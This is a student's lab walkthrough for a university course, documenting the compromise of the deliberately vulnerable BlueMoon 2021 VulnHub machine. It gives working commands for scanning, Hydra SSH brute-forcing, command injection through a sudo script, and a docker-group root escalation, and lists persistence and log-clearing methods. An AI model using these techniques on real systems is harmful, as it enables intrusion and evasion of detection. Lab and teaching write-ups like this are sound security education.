# BlueMoon 2021 — Penetration Testing Walkthrough

**Course:** IKB21403 Vulnerability Analysis
**Lab:** Week 3 Lab Exercise
**Target Machine:** BlueMoon 2021 (VulnHub)
**Attacker Machine:** Kali Linux

---

## 1. Introduction

This write-up documents the full process of attacking the **BlueMoon 2021** vulnerable virtual machine, from reconnaissance to gaining root access. The attack follows the standard 6-stage System Hacking methodology.

---

## 2. Stage 1: Reconnaissance

**Objective:** Identify the target machine's IP address on the network.

**Command:**
```bash
sudo nmap -sn 192.168.56.0/24
```

**Result:** Target identified at **`192.168.56.101`**, confirmed via its HTTP title `BlueMoon:2021`.



---

## 3. Stage 2: Scanning

**Objective:** Identify open ports and running services on the target.

**Command:**
```bash
sudo nmap -sC -sV -p- 192.168.56.101
```

**Result:**

| Port | Service | Version |
|---|---|---|
| 21 | FTP | vsftpd 3.0.3 |
| 22 | SSH | OpenSSH 7.9p1 |
| 80 | HTTP | Apache 2.4.38 |



---

## 4. Stage 3: Gaining Access

### 4.1 Web Enumeration

Visited `http://192.168.56.101` — a simple landing page was found. Viewing the page source (Ctrl+U) revealed two hidden image files referenced in the HTML:
- `.blue.jpg`
- `.starts.jpeg`



### 4.2 Directory Brute-Forcing

```bash
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,zip,jpg
```

This revealed a hidden page: **`/hidden_text`** (Status: 200).



### 4.3 QR Code Discovery

Visiting `/hidden_text` displayed a "Maintenance" page containing a **QR code** image. Scanning the QR code revealed a bash script containing FTP credentials:

```bash
HOST=ip
USER=userftp
PASSWORD=ftpp@ssword
```



### 4.4 FTP Access

```bash
ftp 192.168.56.101
# Username: userftp
# Password: ftpp@ssword
```

Login successful. Two files were found and downloaded:

```bash
get information.txt
get p_lists.txt
```

**`information.txt`** contained a clue revealing the SSH username:
> "Hello robin ...! I'm Already Told You About Your Password Weakness. I will give a Password list. you May Choose Anyone of The Password."

**`p_lists.txt`** contained a custom password wordlist (~32 entries).



### 4.5 SSH Brute-Force

Using the username `robin` and the custom password list, SSH login was brute-forced using Hydra:

```bash
hydra -l robin -P p_lists.txt ssh://192.168.56.101
```

**Result:** Valid credentials found:
- **Username:** `robin`
- **Password:** `k4rv3ndh4nh4ck3r`



### 4.6 SSH Login

```bash
ssh robin@192.168.56.101
```

Successfully logged in as user `robin`.

```bash
$ whoami
robin
$ cat /home/robin/user1.txt
Fl4g{u5er1r34ch3d5ucc355fully}
```

**User-1 Flag obtained.**



---

## 5. Stage 4: Privilege Escalation

### 5.1 Enumerating Sudo Permissions

```bash
sudo -l
```

**Result:** User `robin` is permitted to run the following command as user `jerry`, with no password required:

```
(jerry) NOPASSWD: /home/robin/project/feedback.sh
```



### 5.2 Analyzing the Script

```bash
cat /home/robin/project/feedback.sh
```

The script contained a critical vulnerability — it executed the user's raw input directly as a shell command:

```bash
read -p "Enter You FeedBack About This Target Machine : " feedback
...
$feedback 2>/dev/null
```

This is a **command injection vulnerability**: any value entered as "feedback" is executed as a system command.



### 5.3 Exploiting the Script (robin → jerry)

```bash
sudo -u jerry /home/robin/project/feedback.sh
```

- Name: `(anything)`
- Feedback: `/bin/bash`

This spawned a shell running as user `jerry`.

```bash
$ whoami
jerry
$ cat /home/jerry/user2.txt
Fl4g{Y0ur34ch3du53r25uc355ful1y}
```

**User-2 Flag obtained.**



### 5.4 Docker Group Abuse (jerry → root)

Checking group membership:

```bash
id
```

**Result:** `groups=1002(jerry),114(docker)` — user `jerry` is a member of the **docker** group.



Membership in the `docker` group allows privilege escalation to root, because the Docker daemon itself runs with root privileges. By mounting the host's root filesystem into a container, a root shell on the host can be obtained:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

```bash
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),...
```

**Root access obtained.**



```bash
# cat /root/root.txt
Fl4g{r00t-H4ckTh3P14n3t0nc34g4in}
```

**Root Flag obtained.**



---

## 6. Stage 5: Maintaining Access (Conceptual)

Once root access is obtained, an attacker could maintain persistent access through methods such as:
- Adding their own SSH public key to `/root/.ssh/authorized_keys` for passwordless future login.
- Creating a new user account with root (UID 0) privileges.
- Installing a cron job or systemd service that reconnects to the attacker's machine.

These actions were **not performed** on this target, as the purpose of this lab is demonstration and the machine will be reset/reused by others.

---

## 7. Stage 6: Clearing Tracks (Conceptual)

To avoid detection, an attacker could cover their tracks by:
- Clearing shell history: `history -c` and removing `.bash_history`.
- Clearing or modifying system logs in `/var/log/` (e.g., `auth.log`, `wtmp`).
- Removing any uploaded tools or temporary files.

These actions were **not performed**, in order to preserve the machine's state for review and grading.

---

## 8. Summary of Flags

| Flag | Value |
|---|---|
| User-1 | `Fl4g{u5er1r34ch3d5ucc355fully}` |
| User-2 | `Fl4g{Y0ur34ch3du53r25uc355ful1y}` |
| Root | `Fl4g{r00t-H4ckTh3P14n3t0nc34g4in}` |

---

## 9. Attack Chain Summary

```
Recon (nmap) 
  → Scanning (nmap -sC -sV -p-)
  → Web enum (gobuster) → /hidden_text → QR code → FTP creds
  → FTP login → information.txt + p_lists.txt
  → Hydra brute-force → SSH creds (robin)
  → SSH login (robin) → User-1 flag
  → sudo -l → feedback.sh command injection → jerry → User-2 flag
  → docker group abuse → container escape → ROOT → Root flag
```

---

## 10. Conclusion

This exercise demonstrated a complete attack chain against a deliberately vulnerable machine, covering information gathering, service enumeration, credential discovery through steganography-adjacent techniques (QR code), password brute-forcing, command injection exploitation, and privilege escalation via Docker group misconfiguration. Each stage highlighted common real-world misconfigurations that organisations must guard against, such as exposed hidden files, weak/reused credentials, unvalidated script input, and overly permissive group memberships.

---

## References

1. VulnHub, *BlueMoon: 2021*, https://www.vulnhub.com/entry/bluemoon-2021,679/
2. IKB21403 Vulnerability Analysis, Week 3 Lab Exercise materials, Universiti Kuala Lumpur.
